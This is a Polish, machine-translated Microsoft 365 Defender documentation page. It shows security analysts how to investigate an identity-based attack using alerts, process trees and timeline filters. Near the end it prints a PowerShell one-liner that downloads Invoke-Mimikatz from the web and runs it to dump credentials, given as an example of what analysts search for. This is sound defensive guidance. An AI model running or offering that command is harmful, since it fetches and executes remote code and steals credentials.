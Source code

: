 ```yaml
---
title: Przykładowy atak oparty na tożsamości
description: Przesuń się przez przykładową analizę ataków opartych na tożsamości.
keywords: zdarzenia, alerty, badanie, korelacja, atak, komputery, urządzenia, użytkownicy, tożsamości, tożsamość, skrzynka pocztowa, poczta e-mail, 365, microsoft, m365, reagowanie na incydenty, cyberataki
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 20b9fca87e003c0c776c9f614afaa1b6054c24a5
ms.sourcegitcommit: 3b8e009ea1ce928505b8fc3b8926021fb91155f3
ms.translationtype: MT
ms.contentlocale: pl-PL
ms.lasthandoff: 03/28/2022
ms.locfileid: "64500282"
---
```

# <a name="example-of-an-identity-based-attack"></a>Przykładowy atak oparty na tożsamości

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Dotyczy:**
- Microsoft 365 Defender

Microsoft Defender for Identity pomóc w wykryciu złośliwych prób naruszenia tożsamości w organizacji. Ponieważ program Defender for Identity jest zintegrowany z programem Microsoft 365 Defender, analitycy zabezpieczeń mogą mieć wgląd w zagrożenia pochodzące z usługi Defender for Identity, takie jak podejrzewane próby podwyższenia uprawnień użytkownika Netlogon.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analizowanie ataków w programie Microsoft Defender for Identity

Microsoft 365 Defender umożliwia analitykom filtrowanie alertów przez wykrywanie źródła na karcie **Alerty** na stronie zdarzeń. W poniższym przykładzie źródło wykrywania jest filtrowane do usługi **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtrowanie źródła wykrywania w Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Wybranie **alertu o podejrzewanym** o wmięcie krzyżyka powoduje wyświetlenie strony w programie Microsoft Defender for Cloud Apps która zawiera bardziej szczegółowe informacje. Zawsze możesz dowiedzieć się więcej o alertach lub atakach, wybierając pozycję Dowiedz się więcej o tym typie **alertu**[, aby przeczytać](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) opis sugestii dotyczących ataków i działań naprawczych.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="A suspected overpass-the-hash attack alert" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Badanie tego samego ataku w Ochrona punktu końcowego w usłudze Microsoft Defender

Alternatywnie analityk może użyć usługi Defender for Endpoint, aby dowiedzieć się więcej o aktywności w punkcie końcowym. Wybierz zdarzenie z kolejki zdarzeń, a następnie wybierz **kartę Alerty** . W tym miejscu także mogą zidentyfikować źródło wykrywania. Źródło wykrywania oznaczone jako EDR oznacza Endpoint Detection and Response (Wykrywanie punktu końcowego i odpowiedzi), czyli Defender for Endpoint (Punkt końcowy). W tym miejscu analityk wybiera alert wykryty przez EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Wykrywanie punktu końcowego i odpowiedź w portalu Ochrona punktu końcowego w usłudze Microsoft Defender sieci Web" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png"::: 

Na stronie alertu są wyświetlane różne istotne informacje, takie jak nazwa urządzenia, nazwa użytkownika, stan automatycznego badania i szczegóły alertu. Historia alertów przedstawia wizualną reprezentację drzewa procesu. Drzewo procesu jest hierarchiczną reprezentacją procesów nadrzędnych i podrzędnych powiązanych z alertem.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Drzewo procesu alertu w Ochrona punktu końcowego w usłudze Microsoft Defender" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Każdy proces można rozwinąć, aby wyświetlić więcej szczegółów. Szczegóły, które może zobaczyć analityk, to rzeczywiste polecenia wprowadzone w ramach złośliwego skryptu, adresy IP połączeń wychodzących i inne przydatne informacje.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Szczegóły procesu w portalu Ochrona punktu końcowego w usłudze Microsoft Defender klienta" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
Wybierając pozycję **Zobacz na osi czasu**, analityk może jeszcze bardziej przejść do szczegółów w celu określenia dokładnego czasu naruszenia. 

Ochrona punktu końcowego w usłudze Microsoft Defender wykrywać wiele złośliwych plików i skryptów. Jednak z powodu wielu legalnych zastosowań połączeń wychodzących, programu PowerShell i działań w wierszu polecenia niektóre działania będą uznawane za ważne do czasu, aż zostanie w wyniku tego złośliwy plik lub działanie. Dlatego korzystanie z osi czasu ułatwia analitykom stosowanie alertu w kontekście otaczającego go działania w celu określenia pierwotnego źródła lub czasu ataków, które w innym przypadku jest przesłonięte przez wspólny system plików i działania użytkowników. 

Aby użyć osi czasu, analityk uruchamiał się w momencie wykrywania alertu (w kolorze czerwonym) i przewijał w dół w czasie, aby ustalić, kiedy pierwotne działanie, które w rzeczywistości spowodowało złośliwe działanie. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Czas rozpoczęcia pracy analityka dla wykrywania alertu" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Ważne jest zrozumienie i rozróżnienie typowych działań, takich jak połączenia usługi Windows Update Windows, ruch aktywacji zaufanego oprogramowania, inne typowe połączenia z witrynami firmy Microsoft, aktywność internetowa innych firm, działania Microsoft Endpoint Configuration Manager i inne aktywność ekwiązyjna przed podejrzanymi działaniami aktywność. Jednym ze sposobów rozróżniania jest korzystanie z filtrów osi czasu. Istnieje wiele filtrów, które mogą wyróżniać określone działania podczas odfiltrowania danych, których analityk nie chce wyświetlać. 

Na poniższej ilustracji analityk przefiltrował wyświetlanie tylko zdarzeń sieci i procesów. Te kryteria filtru umożliwiają analitykowi wyświetlanie połączeń sieciowych i procesów otaczających zdarzenie, w którym program Notatnik nawiągł połączenie z adresem IP, co było również widać w drzewie procesu. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Jak Notatnik w celu nawiązaniu złośliwego połączenia wychodzącego" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

W tym konkretnym zdarzeniu Notatnik zostało użyte do nawiązaniu złośliwego połączenia wychodzącego. Jednak często atakujący używają oprogramowania iexplorer.exe do nawiązywania połączeń w celu pobrania złośliwego ładowania, ponieważ zwykle iexplorer.exe są uznawane za zwykła aktywność w przeglądarkach internetowych.

Innym elementem do wyszukiwania na osi czasu będzie program PowerShell używany do połączeń wychodzących. Analityk będzie szukać skutecznych połączeń programu PowerShell z poleceniami `IEX (New-Object Net.Webclient)` , takimi jak połączenia wychodzące z witryną internetową hostującym złośliwy plik. 

W poniższym przykładzie program PowerShell został użyty do pobrania i wykonania mimikatz z witryny internetowej:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Analityk może szybko wyszukać słowa kluczowe, wpisując słowo kluczowe na pasku wyszukiwania, aby wyświetlić tylko zdarzenia utworzone za pomocą programu PowerShell. 

## <a name="next-step"></a>Następny krok

Zobacz [ścieżkę badania wyłudzania](first-incident-path-phishing.md) informacji.

## <a name="see-also"></a>Zobacz też

- [Omówienie zdarzeń](incidents-overview.md)
- [Zarządzanie zdarzeniami](manage-incidents.md)
- [Badanie zdarzeń](investigate-incidents.md)
